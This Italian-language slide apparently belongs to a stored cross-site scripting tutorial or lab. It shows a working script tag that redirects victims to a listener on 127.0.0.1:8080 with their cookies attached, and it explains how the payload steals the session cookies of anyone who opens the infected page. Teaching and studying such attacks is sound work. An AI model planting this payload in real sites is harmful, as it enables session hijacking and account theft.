

5. Script finale e ottenimento cookie

Poi useremo questo script nel campo di testo del messaggio:

 <script>window.location='http://127.0.0.1:8080/
cookie='+document.cookie</script>

Utilizzando questo script, i cookie degli utenti verranno reindirizzati al nostro server situato
sulla porta 8080 grazie alla funzionalità window.location, mentre la funzionalità document.cookie recupererà tutti i cookie di sessione associati alla pagina corrente.

 Effettuando l'accesso alla pagina XSS stored, riceveremo i cookie del malcapitato sul nostro falso server.